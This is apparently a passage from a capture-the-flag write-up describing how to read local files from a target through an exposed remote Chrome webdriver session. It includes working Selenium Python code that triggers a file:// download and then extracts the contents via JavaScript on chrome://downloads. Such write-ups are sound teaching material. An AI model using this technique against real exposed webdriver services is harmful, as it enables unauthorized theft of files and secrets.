 Now that we have our remote session set up, we can carry out the actual exploit.

There are many possible solutions to this challenge. One can code a webpage that allows user to upload files, then instruct the remote webdriver to visit that page and upload a local file. One can also use the `file://` protocol to access a local file, which will initiate a download action and allow us to retrieve its contents. Yes it sounds weird to be downloading a local file but that is how Chrome handles such requests. You can try it by dragging any local file into a Chrome browser window.

I solved this challenge using the later method of initiating a download action then retrieving the contents by visiting the `chrome://downloads` page and executing JavaScript because I do not have a hosted webserver at hand.

Luckily, there exists a [StackOverflow answer](https://stackoverflow.com/a/47164044) that provides working code to do this, except that it is meant for up to Chrome V79. We have to refer to [another answer](https://stackoverflow.com/a/61717236) under the same question for updated code that works till now. The code snippet is as follows:
```python
# https://stackoverflow.com/questions/47068912/how-to-download-a-file-using-the-remote-selenium-webdriver
def get_downloaded_files(driver):
    # Lists out all the files in the downloads page that have the 'completed' status
    if not driver.current_url.startswith("chrome://downloads"):
        driver.get("chrome://downloads/")

    return driver.execute_script(
        "return  document.querySelector('downloads-manager')  "
        " .shadowRoot.querySelector('#downloadsList')         "
        " .items.filter(e => e.state === 'COMPLETE')          "
        " .map(e => e.filePath || e.file_path || e.fileUrl || e.file_url); ")


def get_file_content(driver, path):
    # Get the content of the file at the given path
    elem = driver.execute_script(
        "var input = window.document.createElement('INPUT'); "
        "input.setAttribute('type', 'file'); "
        "input.hidden = true; "
        "input.onchange = function (e) { e.stopPropagation() }; "
        "return window.document.documentElement.appendChild(input); ")

    elem._execute('sendKeysToElement', {'value': [path], 'text': path})

    result = driver.execute_async_script(
        "var input = arguments[0], callback = arguments[1]; "
        "var reader = new FileReader(); "
        "reader.onload = function (ev) { callback(reader.result) }; "
        "reader.onerror = function (ex) { callback(ex.message) }; "
        "reader.readAsDataURL(input.files[0]); "
        "input.remove(); "
        , elem)

    if not result.startswith('data:'):
        raise Exception("Failed to get file content: %s" % result)

    return base64.b64decode(result[result.find('base64,') + 7:])
```
